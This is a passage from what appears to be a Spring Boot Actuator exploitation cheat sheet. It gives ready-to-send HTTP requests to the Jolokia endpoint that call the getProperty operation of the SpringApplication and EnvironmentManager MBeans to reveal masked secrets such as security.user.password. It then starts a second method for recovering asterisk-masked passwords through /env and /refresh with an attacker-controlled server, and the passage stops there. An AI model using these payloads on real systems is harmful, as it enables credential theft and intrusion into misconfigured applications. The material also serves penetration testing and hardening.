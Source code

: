 **spring 2.x**
```http
POST /actuator/jolokia HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["{{ attribute security.user.password }}"]}
```

4. **Call org.springframework.cloud.context.environmentMbean **( requires spring cloud related dependencies )
   - In fact, it calls the getProperty method of the org.springframework.cloud.context.environment.EnvironmentManager class instance

**spring 1.x**

```http
POST /jolokia HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["{{ attribute security.user.password }}"]}
```

**spring 2.x**

```http
POST /actuator/jolokia HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["{{ attribute security.user.password }}"]}
```


### Obtain the Plaintext of the Password Desensitized by the Asterisk (method 2)

When accessing the `/env` interface, the spring actuator will replace the attribute values ​​corresponding to some attribute names with sensitive keywords (such as password, secret) with * to achieve the effect of desensitization

#### Conditions of use:

- GET request to the target website `/env`
- Cans send POST requests to the target website `/env`
- You can send POST request to the `/refresh` interface to refresh the configuration (`spring-boot-starter-actuator` dependency exists)
- The target uses a `spring-cloud-starter-netflix-eureka-client` dependency.
- The target can request the attacker's server (the request can go out of the Internet)

